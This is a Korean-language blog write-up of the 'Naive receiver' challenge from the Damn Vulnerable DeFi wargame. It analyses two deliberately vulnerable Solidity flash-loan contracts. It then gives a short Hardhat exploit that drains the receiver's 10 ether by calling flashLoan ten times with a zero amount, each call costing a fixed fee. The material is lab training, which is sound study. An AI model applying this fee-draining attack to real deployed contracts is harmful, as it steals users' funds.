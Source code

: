 ```yaml
---
title: "DamnVulnerableDefi Naive receiver 풀이"
author: Grizzly
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - NaiveReceiver

sitemap :
changefreq : daily
priority : 1.0
# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정
---
```


## Overview
`Unstoppable`에 이은 Damn Vulnerable Defi 워게임의 2번째 문제이다. 
(하지만, 여느 워게임이 그렇듯 문제간 연관성은 없다;P)

첫 번째 문제에 서술되어 있듯이, 이 워게임에서 제공되는 문제들은 `Solidity`로 작성된 스마트 컨트랙트 파일(들)과 `Javascript`로 작성된 익스플로잇 코드 템플릿을 제공한다. 익스플로잇 코드 템플릿은 `Hardhat`과 `Waffle` 프레임워크로 작성되어 크게 템플릿 코드가 크게 `before`, `it`, `after`로 구분된다. `before` 파트는 문제의 스마트 컨트랙트를 배포하고 초기 자본(?) 설정 등과 같은 초기화를 담당한다. `it` 파트에는 스마트 컨트랙트를 익스플로잇하기 위한 코드가 위치하며, 플레이어가 작성할 수 있도록 비워져있다. 마지막으로, `after` 파트에는 문제의 달성 조건이 작성되어있다. 

워게임 플레이어는 스마트 컨트랙트와 익스플로잇 코드의 after 파트를 확인해서, 문제의 방향을 확인해야 한다.
(물론, 워게임 [사이트](https://www.damnvulnerabledefi.xyz/)에도 글로 잘 작성되어 있다.)

본론으로 들어가서, 이 문제에서는 2개의 스마트 컨트랙트(`FlashLoanReceiver.sol`, `NaiveReceiverLenderPool.sol`)가 주어진다. `NaiveRecevierLenderPool`은 flashLoan 서비스를 제공하는 컨트랙트이고, 초기 자본 `1000 ether`를 가지고 있다. `FlashLoanReceiver`는 대출을 받는 컨트랙트이고, 초기 자본 `10 ehter`를 가지고 있다. 이 문제의 목표는 ***flashLoan 서비스를 통해 `NaiveReceiverLenderPool`이 `FlashLoanReceiver`가 가진 `10 ether`를 모두 가져가게 만드는 것이 목표다.***

## 컨트랙트 분석
사실 분석이라고 할 것까지도 없는 민망한 컨트랙트이지만, 제공된 2개의 컨트랙트의 기능을 확인해본다.

### NaiveReceiverLenderPool

~~~
    ...
    function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
    ...
~~~
가장 중요한 `flashLoan` 함수만 보면, 
1. 대출자의 주소(`borrower`)와 대출금액(`borrowAmount`)을 매개변수로 전달받아, 
2. 대출 전 잔액인 `balanceBefore`가 `borrowAmount`보다 크면, 
3. `borrower`(컨트랙트)의 `receiveEther` 함수를 호출한다. 
4. `receiveEther` 함수 호출시, 고정 수수료(`FIXED_FEE`)를 매개변수로 전달하고, trasaction value로 `borrowAmount`를 전달한다. 
5. 마지막으로, 상환된 금액을 체크한다. 
   
전체 컨트랙트 코드를 보면 알 수 있자만, `FIXED_FEE`는 `1 ether`로 설정되어 있다.

### FlashLoanReceiver

~~~
    ...
    // Function called by the pool during flash loan
    function receiveEther(uint256 fee) public payable {
        require(msg.sender == pool, "Sender must be pool");

        uint256 amountToBeRepaid = msg.value + fee;

        require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
        _executeActionDuringFlashLoan();
        
        // Return funds to pool
        pool.sendValue(amountToBeRepaid);
    }
    ...
~~~
여기에서도 `receiveEther` 함수만 살펴본다. 
1. 이 함수는 수수료(`fee`)를 매개변수로 전달받아, 
2. `msg.sender`가 `NaiveReceiverLenderPool` 컨트랙트인지 확인한다. 
3. 상환 금액인 `amountToBeRepaid`을 `msg.value`와 `fee`의 합으로 계산하고,
4. `amountToBeRepaid`가 현재 잔액 이하인 경우,
5. 대출금을 사용하는 `_executeActionDuringFlashLaon` 함수를 실행하고 (이 문제에서는 아무런 동작도 하지 않음),
6. `amountToBeRepaid`만큼 `NaiveReceiverLenderPool`에 상환한다.

## Solution
이 문제는 너무 쉬워서 풀이라 할 것도 없다... `FlashLoanReceiver`가 얼마를 대출하던 항상 수수료로 `1 ether`가 지출되기 떄문에 대출금을 `0`으로 설정하고 `flashLoan` 함수를 `10`번 호출하면, `FlashLoanReceiver`의 자본 `10 ether`를 모두 소진하게 된다.

~~~
    ...
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        for (var i = 0;i < 10;++i) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address, 0);
        }
    });
    ...
~~~

***EZ***